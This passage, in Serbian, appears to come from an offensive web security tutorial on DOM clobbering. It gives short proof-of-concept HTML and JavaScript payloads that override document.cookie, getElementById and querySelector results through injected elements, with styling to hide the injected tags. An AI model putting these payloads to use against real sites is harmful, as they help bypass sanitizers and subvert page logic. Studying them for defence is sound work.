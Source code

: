 Korišćenjem ove tehnike možete prepisati često korišćene **vrednosti kao što su `document.cookie`, `document.body`, `document.children`**, pa čak i metode u interfejsu Document kao što je `document.querySelector`.

```javascript
document.write("<img name=cookie />")

document.cookie
<img name="cookie">

typeof(document.cookie)
'object'

//Something more sanitize friendly than a img tag
document.write("<form name=cookie><input id=toString></form>")

document.cookie
HTMLCollection(2) [img, form, cookie: img]

typeof(document.cookie)
'object
```

## Pisanje nakon što je element prebrisao

Rezultati poziva **`document.getElementById()`** i **`document.querySelector()`** mogu biti promenjeni ubacivanjem `<html>` ili `<body>` oznake sa identičnim id atributom. Evo kako to može biti urađeno:

```html
<div style="display:none" id="cdnDomain" class="x">test</div>
<p>
<html id="cdnDomain" class="x">clobbered</html>
<script>
alert(document.getElementById('cdnDomain').innerText); // Clobbered
alert(document.querySelector('.x').innerText); // Clobbered
</script>
```

Osim toga, primenom stilova za sakrivanje ovih ubačenih HTML/body oznaka, može se sprečiti mešanje sa drugim tekstom u `innerText`, čime se poboljšava efikasnost napada:

```html
<div style="display:none" id="cdnDomain">test</div>
<p>existing text</p>
<html id="cdnDomain">clobbered</html>
<style>
p{display:none;}
</style>
<script>
alert(document.getElementById('cdnDomain').innerText); // Clobbered
</script>
```
